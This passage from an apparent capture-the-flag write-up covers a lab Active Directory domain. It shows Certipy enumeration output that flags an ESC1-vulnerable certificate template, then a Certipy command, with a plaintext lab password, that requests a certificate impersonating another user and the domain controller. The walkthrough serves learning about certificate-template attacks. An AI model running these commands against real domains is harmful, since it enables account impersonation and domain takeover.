 ```
                                          NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Enroll                          : NORTHPOLE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : NorthPoleUsers
    Display Name                        : NorthPoleUsers
    Certificate Authorities             : northpole-npdc01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Domain Users
                                          NORTHPOLE.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : NORTHPOLE.LOCAL\Enterprise Admins
        Write Owner Principals          : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Write Dacl Principals           : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Write Property Principals       : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

```

Here we see validated a Vulnerable Template named **NorthPoleUsers**. We take the next step and leverage this

```
alabaster@ssh-server-vm:~/impacket$ certipy req -username elfy@northpole.local -password 'J4`ufC49/J4766' -ca northpole-npdc01-CA -target 10.0.0.53 -template NorthPoleUsers -upn wombleycube@northpole.local -dns npdc01.northpole.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: NORTHPOLE.LOCAL
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with multiple identifications
    UPN: 'wombleycube@northpole.local'
    DNS Host Name: 'npdc01.northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube_npdc01.pfx'

```